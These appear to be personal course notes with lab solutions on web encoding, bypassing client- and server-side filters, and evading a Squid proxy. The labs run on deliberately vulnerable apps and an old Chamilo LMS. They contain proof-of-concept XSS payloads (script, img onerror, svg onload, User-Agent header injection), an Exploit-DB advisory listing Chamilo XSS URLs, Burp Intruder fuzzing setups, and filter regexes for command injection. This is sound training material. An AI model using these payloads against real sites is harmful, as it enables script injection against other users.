


# Encoding, Filtering and Evasion Basics

In the ever evolving  world of cybersecurity, web applications continue to be prime targets for cyberattacks. To effectively attack and defend against these threats and vulnerabilities, you need to go beyond the basics of standard web application penetration testing.

This course is designed to take your web app penetration testing expertise to the next level by focusing on three essential aspects of web application security testing that frequently get overlooked: encoding, filtering, and evasion. In order to understand how to analyze and assess a web applications for vulnerabilities, you need to understand how web application developers implement encoding, input filtering and security mechanisms like WAFs (Web Application Firewalls) for improved security.
This course will start off by introducing you to the practice of characterset encoding, URL encoding, HTML encoding and Base64 encoding and will explain how and why these encoding techniques are utilized in web applications. You will then be introduced to the process of server-side and client-side input filtering, where you will get a tacit understanding of the different types of input filtering techniques used to prevent vulnerabilities like XSS, SQL Injection and command injection. The course will then outline how these filtering techniques can be bypassed through manual and automated techniques. Finally, this course will introduce you to WAFs (Web Application Firewalls), Proxies and server-side IDSs (Intrusion Detection Systems). You will learn about how they work, how they can be identified and how they can be bypassed.

---

## Course Introduction

### Course Topic Overview

- Charset Encoding
- HTML Encoding
- URL Encoding
- Base64 Encoding
- Bypassing Client-Side Filters
- Bypassing Server-Side Filters
- Web Application Firewalls (WAF) and Proxies
- Evading WAFs, Proxies and IDSs

### Prerequisites

- Basic familiarity with HTTP/HTTPS
- Basic familiarity with OWASP ZAP/Burp Suite
- Basic familiarity with Javascript

### Learning Objectives

- You will have a good understanding of the importance of encoding on the web and its importance in the functionality of web applications.
- You will have a solid understanding of what content and input filtering is, how and why filtering is implemented in web applications and how server-side and client-side filters can be bypassed.
- You will have a functional understanding of what Web Application Firewalls (WAF) are, how they work and how they differ from traditional proxies.
- You will have a solid understanding of the most common forms of encoding on the web, how they work and how why they are implemented (HTML encoding, URL Encoding and Base64 encoding).
- You will have the ability to detect and bypass common client-side and server-side filters (XSS filters, command injection filters etc).
- You will be able to bypass/evade rudimentary forms of protection/filtering imposed by proxies/WAFs.

---
---

## Encoding

### Charset Encoding

#### Lab Solution

`vim ./charset_encoding.html`:
```html
<!DOCTYPE html>
<html>
<head>
    <title>Non-ASCII Characters Example</title>
    <meta charset="ASCII">
</head>
<body>
    <h1>Καλημέρα! (Good morning!)</h1>
    <p>Αυτό είναι ένα παράδειγμα κειμένου στην ελληνική γλώσσα.</p>
</body>
</html>
```

`python3 -m http.server 80`:
```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```


`vim ./charset_encoding.html`:
```html
<!DOCTYPE html>
<html>
<head>
    <title>Non-ASCII Characters Example</title>
    <meta charset="UTF-8">
</head>
<body>
    <h1>Καλημέρα! (Good morning!)</h1>
    <p>Αυτό είναι ένα παράδειγμα κειμένου στην ελληνική γλώσσα.</p>
</body>
</html>
```


### HTML Encoding

#### Lab Solution

`python3 -m http.server 80`:
```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

`vim ./test1.html`:
```html
<!DOCTYPE html>
<html>
    <head>
        <title>HTML Test</title>
    </head>
    <body>
        <h1>This is a <h1>TEST</h1></h1>
    </body>
</html>
```


`vim ./test2.html`:
```html
<!DOCTYPE html>
<html>
	<head>
		<title>HTML Test</title>
	</head>
	<body>
		<h1>This is a <script>alert("script");</script><strong>TEST</strong></h1>
	</body>
</html>
```


`CyberChef` > `https://cyberchef.org/#recipe=To_HTML_Entity(false,'Named%20entities')&input=VGhpcyBpcyBhIDxzY3JpcHQ%2BYWxlcnQoInNjcmlwdCIpOzwvc2NyaXB0PiA8c3Ryb25nPlRFU1Q8L3N0cm9uZz4`



`sudo systemctl start apache2`

`cd /var/www/html`

`vim ./html_encode_unsafe.php`:
```php
<!DOCTYPE html>
<html>
    <head>
        <title>HTML Encoding</title>
    </head>
    <body>
        <h1>Welcome to our website</h1>
        
        <?php
        $userInput = $_GET['input'];
        echo "<p>User input from the URL: $userInput</p>";
        ?>

        <p>Thank you for visiting!</p>
    </body>
</html>
```


`vim ./html_encode_safe.php`:
```php
<!DOCTYPE html>
<html>
    <head>
        <title>HTML Encoding</title>
    </head>
    <body>
        <h1>Welcome to our website</h1>
        
        <?php
        $userInput = $_GET['input'];
        $sanitizedInput = htmlspecialchars($userInput, ENT_QUOTES, 'UTF-8');
        echo "<p>User input from the URL: $sanitizedInput</p>";
        ?>

        <p>Thank you for visiting!</p>
    </body>
</html>
```


### URL Encoding

#### Lab Solution




`python3 -m http.server 80`:
```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

`vim ./url_encoding.html`:
```html
<!DOCTYPE html>
<html>
    <head>
        <title>URL Encode</title>
    </head>
    <body>
        <h1>URL Encoding With JS</h1>
        
        <label for="textInput">Enter text to encode:</label>
        <input type="text" id="textInput" placeholder="Enter text">
        <button type="button" onclick="encodeText()">Encode</button>
        
        <p>Encoded Text:</p>
        <p id="encodedText"></p>

        <script>
            function encodeText() {
                var inputText = document.getElementById("textInput").value;
                var encodedText = encodeURIComponent(inputText);
                document.getElementById("encodedText").textContent = encodedText;
            }
        </script>
    </body>
</html>
```


`sudo systemctl start apache2`

`cd /var/www/html`

`vim ./url_encoding.php`:
```php
<!DOCTYPE html>
<html>
    <head>
        <title>URL Encode</title>
    </head>
    <body>
        <h1>URL Encoding With PHP</h1>
        <form method="get" action="">
            <label for="textInput">Enter text to encode:</label>
            <input type="text" id="textInput" name="inputText" placeholder="Enter text">
            <button type="submit">Encode</button>
        </form>

        <?php
        if (isset($_GET['inputText'])) {
            $inputText = $_GET['inputText'];
	        $encodedTest = urlencode($inputText);
            echo "<h2>Input: $encodedTest</h2>";
        }
        ?>
    </body>
</html>
```


`vim ./url_encoding_decoding.php`:
```php
<!DOCTYPE html>
<html>
    <head>
        <title>URL Encode</title>
    </head>
    <body>
        <h1>URL Encoding With PHP</h1>
        <form method="get" action="">
            <label for="textInput">Enter your name:</label>
            <input type="text" id="textInput" name="inputText" placeholder="Enter text">
            <button type="submit">Encode</button>
        </form>

        <?php
        if (isset($_GET['inputText'])) {
            $inputText = $_GET['inputText'];
	        $encodedTest = urlencode($inputText);
	        $decodedTest = urldecode($encodedTest); // Simulate server-side decoding
            echo "<h2>Welcome: $decodedTest</h2>";
        }
        ?>
    </body>
</html>
```

`burpsuite` > `Proxy`

`HTTP Request`:
```http
GET /url_encoding_decoding.php?inputText=%3Cscript%3Ealert%28%22TEST%22%29%3B%3C%2Fscript%3E HTTP/1.1 📌
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://127.0.0.1/url_encoding_decoding.php?inputText=%3Cscript%3Ealert%28%22TEST%22%29%3B%3C%2Fscript%3E
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
```


### Base64 Encoding

#### Lab Solution

`python3 -m http.server 80`:
```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

`vim ./base64_text_encoding.html`:
```html
<!DOCTYPE html>
<html>
<head>
    <title>Base64 Encoding Web App</title>
</head>
<body>
    <h1>Base64 Encoding Web App</h1>
    
    <label for="inputText">Enter text to encode:</label>
    <input type="text" id="inputText" placeholder="Enter text ...">
    <button type="button" onclick="encodeToBase64()">Encode to Base64</button>
    
    <p>Encoded Result:</p>
    <textarea id="encodedResult" rows="5" cols="50" readonly></textarea>

    <script>
        // Function to encode user input to Base64
        function encodeToBase64() {
            var inputText = document.getElementById("inputText").value;
            var encodedResult = btoa(inputText);
            document.getElementById("encodedResult").value = encodedResult;
        }
    </script>
</body>
</html>
```


`echo -n 'TEST' | base64`:
```
VEVTVA==
```

`file ./test.png`:
```
./test.png: PNG image data, 122 x 62, 8-bit/color RGBA, non-interlaced
```

`base64 ./test.png`:
```
iVBORw0KGgoAAAANSUhEUgAAAHoAAAA+CAYAAADkkA+eAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsMAAA7DAcdvqGQAAA68SURBVHhe7VwJdBTlHf/vfeQmB0mAkHAYiCeHAiLy1OIBRa2UWo9iwQdPbWmtFRUqVhTtsz59tlVrKVoEKVCqFrXValWOKCAoyo0HCOFKYshF9j76/307E/aY2WzCZrMJ+3vve

[...]

CCAyzWaV4jkHxEy8DF6FFpYrOI3i6WcvhTEVnH4cbPNCTBooYK2HeBWCHZzSdFsUAEQCmS446uJTqFuELWXiVEJRp6lRrdZwBqZEf10fLA/4CWt+VjKSQPWgMuyScH++fWY9GIlj9louX9FJIPrYQGES3vi081ogGQGkxwiuTkBkgNJljeBtokWkaK5O6BEHJjJVpGiuTuhWCCZcREdArdHUT/By+dPdNxdXvnAAAAAElFTkSuQmCC
```

`vim ./base64_image_encoding_embedded.html`:
```html
<!DOCTYPE html>
<html>
    <head>
        <title>Base64 Image Encoding Embedded</title>
    </head>
    <body>
        
    </body>
</html>
```


---

## Filtering

### Bypassing Client-Side Filters

#### Lab Environment

**Mutillidae II**

[Mutillidae II](https://www.owasp.org/index.php/OWASP_Mutillidae_2_Project) is a deliberately vulnerable web application created by Jeremy Druin and currently maintained by [OWASP](https://www.owasp.org/). It is licensed under [GPLv3](https://www.gnu.org/licenses/gpl-3.0.html).

You can download Mutillidae 2 locally and install it in a virtual machine. We are providing an online version to save you time and pain of having to do that.

A sample set of vulnerabilities include:
- Authentication Bypass
- SQL Injection
- Click Jacking
- DOM Injection
- Cross Site Request Forgery
- File Inclusion
- Code Injection
and many more.

The following username and password may be used to explore the application:
- User: "samurai"
- Password: "samurai".

#### Lab Solution


`view-source:https://bjrjf35ikizrz2cggpk56tiff.eu-central-6.attackdefensecloudlabs.com/index.php?page=dns-lookup.php`:
```php
[...]

<!-- BEGIN HTML OUTPUT  -->
<script type="text/javascript">
	var onSubmitOfForm = function(/* HTMLForm */ theForm){
		var lOSCommandInjectionPattern = /*/;var lCrossSiteScriptingPattern = /*/; 📌		
		if(theForm.target_host.value.search(lOSCommandInjectionPattern) > -1){
			alert("Ampersand and semi-colon are not allowed.\n\nDon\'t listen to security people. Everyone knows if we just filter dangerous characters, XSS is not possible.\n\nWe use JavaScript defenses combined with filtering technology.\n\nBoth are such great defenses that you are stopped in your tracks.");
			return false;
		}else if(theForm.target_host.value.search(lCrossSiteScriptingPattern) > -1){
			alert("Characters used in cross-site scripting are not allowed.\n\nDon\'t listen to security people. Everyone knows if we just filter dangerous characters, XSS is not possible.\n\nWe use JavaScript defenses combined with filtering technology.\n\nBoth are such great defenses that you are stopped in your tracks.");
			return false;			
		}else{
			return true;
		}// end if
	};// end JavaScript function onSubmitOfForm()
</script>

[...]

<form 	action="[index.php?page=dns-lookup.php](view-source:https://bjrjf35ikizrz2cggpk56tiff.eu-central-6.attackdefensecloudlabs.com/index.php?page=dns-lookup.php)" 📌 
			method="post" 📌
			enctype="application/x-www-form-urlencoded" 
			onsubmit="return onSubmitOfForm(this);"
			id="idDNSLookupForm">
			
[...]
```


`view-source:https://bjrjf35ikizrz2cggpk56tiff.eu-central-6.attackdefensecloudlabs.com/index.php?page=dns-lookup.php`:
```php
[...]

<!-- BEGIN HTML OUTPUT  -->
<script type="text/javascript">
	var onSubmitOfForm = function(/* HTMLForm */ theForm){
		var lOSCommandInjectionPattern = /[;&]/;var lCrossSiteScriptingPattern = /[<>=()]/; 📌	
		if(theForm.target_host.value.search(lOSCommandInjectionPattern) > -1){
			alert("Ampersand and semi-colon are not allowed.\n\nDon\'t listen to security people. Everyone knows if we just filter dangerous characters, XSS is not possible.\n\nWe use JavaScript defenses combined with filtering technology.\n\nBoth are such great defenses that you are stopped in your tracks.");
			return false;
		}else if(theForm.target_host.value.search(lCrossSiteScriptingPattern) > -1){
			alert("Characters used in cross-site scripting are not allowed.\n\nDon\'t listen to security people. Everyone knows if we just filter dangerous characters, XSS is not possible.\n\nWe use JavaScript defenses combined with filtering technology.\n\nBoth are such great defenses that you are stopped in your tracks.");
			return false;			
		}else{
			return true;
		}// end if
	};// end JavaScript function onSubmitOfForm()
</script>

[...]

<form 	action="[index.php?page=dns-lookup.php](view-source:https://bjrjf35ikizrz2cggpk56tiff.eu-central-6.attackdefensecloudlabs.com/index.php?page=dns-lookup.php)" 
			method="post" 
			enctype="application/x-www-form-urlencoded" 
			onsubmit="return onSubmitOfForm(this);"
			id="idDNSLookupForm">		
	<table style="margin-left:auto; margin-right:auto;">
		<tr id="id-bad-cred-tr" style="display: none;">
			<td colspan="2" class="error-message">
				Error: Invalid Input
			</td>
		</tr>
		<tr><td></td></tr>
		<tr>
			<td colspan="2" class="form-header">Who would you like to do a DNS lookup on?<br/><br/>Enter IP or hostname</td>
		</tr>
		<tr><td></td></tr>
		<tr>
			<td class="label">Hostname/IP</td>
			<td>
				<input 	type="text" id="idTargetHostInput" name="target_host" size="20" 
						autofocus="autofocus"
						OSCommandInjectionPoint="1"
						minlength="1" maxlength="20" 📌 required="required"				/>
			</td>
[...]
```


`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /index.php?page=dns-lookup.php HTTP/1.1
Host: bjrjf35ikizrz2cggpk56tiff.eu-central-6.attackdefensecloudlabs.com
Cookie: PHPSESSID=cr1pou49771vutjg5ev7btefk0; showhints=1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://bjrjf35ikizrz2cggpk56tiff.eu-central-6.attackdefensecloudlabs.com/index.php?popUpNotificationCode=SL1&page=dns-lookup.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: https://bjrjf35ikizrz2cggpk56tiff.eu-central-6.attackdefensecloudlabs.com
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

target_host=<script>alert("TEST");</script>&dns-lookup-php-submit-button=Lookup+DNS 📌
```


### Bypassing Server-Side Filters

#### Lab Environment

**Damn Vulnerable Web Application**

[Damn Vulnerable Web Application (DVWA](http://www.dvwa.co.uk/)) is a deliberately vulnerable web application created by Ryan Dewhurst. It is licensed under [GPLv3](https://www.gnu.org/licenses/gpl-3.0.html).

You can download DVWA locally and install it in a virtual machine. We are providing an online version to save you the time and pain of having to do that. 

A sample set of vulnerabilities include:
- <u>Cross Site Scripting</u>
- Command Injection
- SQL Injection
- File Upload/Inclusion
and many more.

The following username and password may be used to explore the application:
- User: "admin"
- Password: "password".

#### Lab Solution


`burpsuite` > `Intruder` > `Payloads` = `Payload configuration: Load: /home/kali/tools/SecLists/Fuzzing/XSS/human-friendly/XSS-BruteLogic.txt/XSS-BruteLogic.txt` = `Payload encoding: URL-encode: enabled` > `Settings` = `Redirections: Always` > `Start attack`

`HTTP Request`:
```http
GET /vulnerabilities/xss_r/?name=§TESTING§ HTTP/2 📌
Host: 40gn7w9m9kaqb4y1xxnjkfpi2.eu-central-6.attackdefensecloudlabs.com
Cookie: PHPSESSID=c95thukdhdn9g15j21oho4jdj4; security=medium
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://40gn7w9m9kaqb4y1xxnjkfpi2.eu-central-6.attackdefensecloudlabs.com/vulnerabilities/xss_r/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```
`HTTP Request`:
```http
GET /vulnerabilities/xss_r/?name=%3cImg%20Src%3djavascript%3aalert(1)%20OnError%3dlocation%3dsrc%3e HTTP/2 📌
Host: 40gn7w9m9kaqb4y1xxnjkfpi2.eu-central-6.attackdefensecloudlabs.com
Cookie: PHPSESSID=c95thukdhdn9g15j21oho4jdj4; security=medium
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://40gn7w9m9kaqb4y1xxnjkfpi2.eu-central-6.attackdefensecloudlabs.com/vulnerabilities/xss_r/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

`burpsuite` > `Decoder`

`Input`:
```
%3cImg%20Src%3djavascript%3aalert(1)%20OnError%3dlocation%3dsrc%3e
```
`Decode as: URL`:
```

```


### Bypassing XSS Filters In Chamilo LMS

#### Lab Environment

**Chamilo LMS**

The attacker might not have any user level access to the web application. However, this does not mean that the application cannot be used to attack other users. Reflected Cross Site Scripting could be triggered even by unauthenticated users.

In the exercise below, <u>the attacker is not authenticated to the web application and needs to find a reflected XSS attack on it</u>.

<u>A version of Chamilo LMS is vulnerable to a reflected XSS attack</u>.

**Objective**: Your task is to find and exploit this vulnerability.

#### Lab Solution


`searchsploit 'chamilo'`:
```
----------------------------------------------------------------- ---------------------------------
 Exploit Title                                                   |  Path
----------------------------------------------------------------- ---------------------------------
Chamilo 1.8.7 / Dokeos 1.8.6 - Remote File Disclosure            | php/webapps/16114.txt
Chamilo LMS - Persistent Cross-Site Scripting                    | php/webapps/39474.txt
Chamilo LMS 1.11.14 - Account Takeover                           | php/webapps/50694.txt
Chamilo LMS 1.11.14 - Remote Code Execution (Authenticated)      | php/webapps/49867.py
Chamilo LMS 1.11.8 - 'firstname' Cross-Site Scripting            | php/webapps/45536.txt
Chamilo LMS 1.11.8 - Cross-Site Scripting                        | php/webapps/45535.txt
Chamilo LMS 1.9.10 - Multiple Vulnerabilities                    | php/webapps/36435.txt
Chamilo Lms 1.9.6 - 'profile.php?password' SQL Injection         | php/webapps/30012.txt
Chamilo LMS 1.9.8 - Blind SQL Injection                          | php/webapps/36040.txt
Chamilo LMS IDOR - 'messageId' Delete POST Injection             | php/webapps/39473.txt
----------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

`cp /usr/share/exploitdb/exploits/php/webapps/36435.txt ./`

`cat ./36435.txt`:
```
I. Overview
========================================================
Chamilo LMS 1.9.10 or prior versions are prone to a multiple Cross-Site Scripting (Stored + Reflected) & CSRF vulnerabilities. These vulnerabilities allows an attacker to gain control over valid user accounts in LMS, perform operations on their behalf, redirect them to malicious sites, steal their credentials, and more.

II. Severity
========================================================
Rating: High
Remote: Yes
Authentication Require: Yes
CVE-ID:

III. Vendor's Description of Application
========================================================
Chamilo LMS, or Chamilo Learning Management System is a piece of software that allows you to create a virtual campus for the provision of online or semi-online training. It is distributed under the GNU/GPLv3+ license and its development process is public. All the Chamilo software products are entirely free (as in freedom), free (as in beer) and complete, and are production-ready without requiring any type of payment.

https://chamilo.org/chamilo-lms/

IV. Vulnerability Details & Exploit
========================================================
1) Multiple Reflected XSS Request 📌

Request Method = GET

XSS PoC's:-

/main/calendar/agenda_list.php?type=personal%27%20onmouseover=%27confirm%280%29%27/%3E%3C!-- 📌
/main/messages/outbox.php?f=social"+onmouseover="confirm(0)
/main/mySpace/student.php?keyword=31337"+onmouseover=confirm(0)//&active=0&_qf__search_user=&submit=Search
/main/inc/lib/fckeditor/editor/plugins/ajaxfilemanager/ajax_get_file_listing.php?editor=stand_alone&view=thumbnail&search=1&search_name=admin&search_recursively=0&search_mtime_from=&search_mtime_to=&search_folder=;</script><script>confirm(0)</script>
/main/admin/configure_extensions.php?display=</script><script>confirm(0)</script>
/main/admin/course_category.php?action=add&category="/><script>confirm(0)</script>
/main/admin/session_edit.php?page=resume_session.php%22%20onmouseover=confirm%280%29//&id=1

b) User Agent Header XSS (Reflected) 📌
GET /main/admin/system_status.php?section=webserver 📌
User-Agent: <script>confirm(0)</script> 📌
__________________________________________________________


[...]

VI. Affected Systems
========================================================
Software: Chamilo LMS
Version: 1.9.10 and Prior`📌
Solution (Fix): Upgrade to 1.9.11 (https://github.com/chamilo/chamilo-lms/)

[...] 
```


`burpsuite` > `Intruder` > `Payloads` = `Payload configuration: Load: /home/kali/tools/SecLists/Fuzzing/XSS/human-friendly/XSS-BruteLogic.txt/XSS-BruteLogic.txt` = `Payload encoding: URL-encode: enabled` > `Settings` = `Redirections: Always` > `Start attack`

`HTTP Request`:
```http
 GET /main/calendar/agenda_list.php?type=personal§TESTING§ HTTP/2
Host: e9rkq8lenrm2q6cbn09m2173h.eu-central-6.attackdefensecloudlabs.com
Cookie: ch_sid=t6d0u4jtrungkuui4jnqr32445; TestCookie=cookies_yes
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

`burpsuite` > `Intruder` > `Payloads` = `Payload configuration: Load: /home/kali/tools/SecLists/Fuzzing/XSS/human-friendly/XSS-BruteLogic.txt/XSS-BruteLogic.txt` = `Payload processing: Add prefix: ' ` = `Payload encoding: URL-encode: enabled` > `Settings` = `Redirections: Always` > `Start attack`

`HTTP Request`:
```http
 GET /main/calendar/agenda_list.php?type=personal§TESTING§ HTTP/2
Host: e9rkq8lenrm2q6cbn09m2173h.eu-central-6.attackdefensecloudlabs.com
Cookie: ch_sid=t6d0u4jtrungkuui4jnqr32445; TestCookie=cookies_yes
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```
`HTTP Request`:
```http
GET /main/calendar/agenda_list.php?type=personal'%20%22%3e%3csvg%20onload%3dalert(1)%2f%2f-- HTTP/2 📌
Host: e9rkq8lenrm2q6cbn09m2173h.eu-central-6.attackdefensecloudlabs.com
Cookie: ch_sid=t6d0u4jtrungkuui4jnqr32445; TestCookie=cookies_yes
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive
```


`burpsuite` > `Repeater`

`HTTP Request`:
```http
GET /main/admin/system_status.php?section=webserver HTTP/2 📌
Host: e9rkq8lenrm2q6cbn09m2173h.eu-central-6.attackdefensecloudlabs.com
Cookie: ch_sid=t6d0u4jtrungkuui4jnqr32445; TestCookie=cookies_yes
User-Agent: <script>confirm(0)</script> 📌
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

---

## Evasion

### Bypassing Squid Proxy - Browser Based Restrictions

#### Lab Environment

**Squid: Browser Based Restriction**

[Squid](http://www.squid-cache.org/) is a caching web proxy. <u>The target machine as described below is running squid proxy. The proxy is configured only to serve requests coming from a specific web browser (i.e. Firefox). A web portal is running on the target machine. This portal is reachable only via the proxy</u>.

**Objective**: You have to figure out a way to access the web portal and retrieve the flag!

Instructions: 
- This lab is dedicated to you! No other users are on this network :)
- Once you start the lab, you will have access to a root terminal of a Kali instance
- Your Kali has an interface with IP address `192.X.Y.Z`. Run `ip addr` to know the values of X and Y.
- The Target machine should be located at the IP address `192.X.Y.3`.
- Do not attack the gateway located at IP address `192.X.Y.1`.
- `postgresql` is not running by default so `Metasploit` may give you an error about this when starting.

#### Lab Solution

`ifconfig eth1`:
```
eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.122.81.2 📌 netmask 255.255.255.0  broadcast 192.122.81.255
        ether 02:42:c0:7a:51:02  txqueuelen 0  (Ethernet)
        RX packets 16  bytes 1376 (1.3 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

`sudo nmap -Pn -sSV -p- 192.122.81.3`:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2024-11-30 17:35 UTC
Nmap scan report for target-1 (192.122.81.3)
Host is up (0.000024s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE    VERSION
3128/tcp open  http-proxy Squid http proxy 3.5.12 📌
MAC Address: 02:42:C0:7A:51:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.79 seconds
```

`curl -x 192.122.81.3:3128 127.0.0.1:80`:
```
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<html><head>
<meta type="copyright" content="Copyright (C) 1996-2015 The Squid Software Foundation and contributors">
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<title>ERROR: The requested URL could not be retrieved</title>
<style type="text/css"><!--
 /*
 * Copyright (C) 1996-2015 The Squid Software Foundation and contributors
 *
 * Squid software is distributed under GPLv2+ license and includes
 * contributions from numerous individuals and organizations.
 * Please see the COPYING and CONTRIBUTORS files for details.
 */

/*
 Stylesheet for Squid Error pages
 Adapted from design by Free CSS Templates
 http://www.freecsstemplates.org
 Released for free under a Creative Commons Attribution 2.5 License
*/

[...]

body
:lang(fa) { direction: rtl; font-size: 100%; font-family: Tahoma, Roya, sans-serif; float: right; }
:lang(he) { direction: rtl; }
 --></style>
</head><body id=ERR_ACCESS_DENIED> 📌
<div id="titles">
<h1>ERROR</h1>
